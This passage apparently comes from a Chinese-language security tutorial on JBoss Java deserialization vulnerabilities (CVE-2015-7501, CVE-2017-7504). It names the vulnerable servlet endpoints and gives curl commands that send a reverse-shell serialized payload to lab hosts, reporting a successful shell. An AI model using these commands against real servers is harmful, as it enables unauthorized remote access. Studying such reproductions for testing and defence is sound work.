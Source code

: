
#### 漏洞验证

    
    
    访问/invoker/JMXInvokerServlet，返回如下页面，说明接口开放，此接口存在反序列化漏洞。  
    

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210830201008.png)image-20210823092835771

#### 漏洞复现

这里利用上面生成的序列化数据ReverseShellCommonsCollectionsHashMap.ser，发送到/invoker/JMXInvokerServlet接口中；

    
    
    curl http://192.168.10.154:8080/invoker/JMXInvokerServlet --data-binary @ReverseSh  
    ellCommonsCollectionsHashMap.ser  
    

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210830201009.png)image-20210823093222160

成功反弹shell。

#### 安全防护

同上；

### 3.JBossMQ JMS 反序列化漏洞（CVE-2017-7504）

#### 漏洞原理

这个漏洞与CVE-2015-7501一样，都是利用了Apache Commons
Collections的基础库进行Java反序列化漏洞的利用。差别在于CVE-2017-7504利用路径是/jbossmq-
httpil/HTTPServerILServlet，CVE-2015-7501的利用路径是/invoker/JMXInvokerServlet。

#### 影响版本

    
    
    Jboss AS 4.x及之前版本  
    

#### 漏洞验证

    
    
    访问/jbossmq-httpil/HTTPServerILServlet，出现如下页面，说明存在该漏洞  
    

![]()image-20210823094243623

#### 漏洞复现

这里利用上面生成好的序列化数据，发送到改接口中：

    
    
    curl http://192.168.10.213:8080/jbossmq-httpil/HTTPServerILServlet --data-binary @ReverseShellCommonsCollectionsHashMap.ser  
    
